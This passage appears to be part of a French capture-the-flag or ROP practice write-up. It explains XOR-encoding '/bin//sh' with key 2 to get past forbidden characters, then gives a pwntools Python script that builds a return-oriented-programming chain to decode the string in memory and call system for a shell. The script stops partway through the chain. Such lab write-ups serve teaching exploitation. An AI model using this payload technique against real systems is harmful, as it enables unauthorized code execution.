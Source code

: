 Nous utiliserons une clé égale à 2 car elle suffit à retirer les caractères interdits de la chaîne `/bin//sh`

Voyons voir la conversion ASCII puis le XOR :

|/ |b |i |n |/ |/ |s |h | Ascii |
|--|--|--|--|--|--|--|--|-------|
|2F|62|69|6E|2F|2F|73|68|  HEX  |
|2D|60|6B|6C|2D|2D|71|6a|  XOR  |

Le code finale est le suivant : 

~~~python
#!/usr/bin/env python

from pwn import *

junk = "A"*40
pop_rdi = p64(0x400b39)
data_addr = 0x6010f0
system = p64(0x4006f0)

binsh = p64(0x2d606b6c2d2d716a, endianness="big")
mov_r13_r12 = p64(0x400b34)
pop_r12_r13_r14_r15 = p64(0x400bac)
pop_r15 = p64(0x400b42)
xor_key = p64(2)
xor_r15_r14b = p64(0x400b30)

payload = junk
payload += pop_r12_r13_r14_r15
payload += binsh
payload += p64(data_addr)
payload += xor_key
payload += p64(data_addr)
payload += mov_r13_r12
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 1)
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 2)
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 3)
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 4)
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 5)
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 6)
payload += xor_r15_r14b

payload += pop_r15
payload += p64(data_addr + 7)
~~~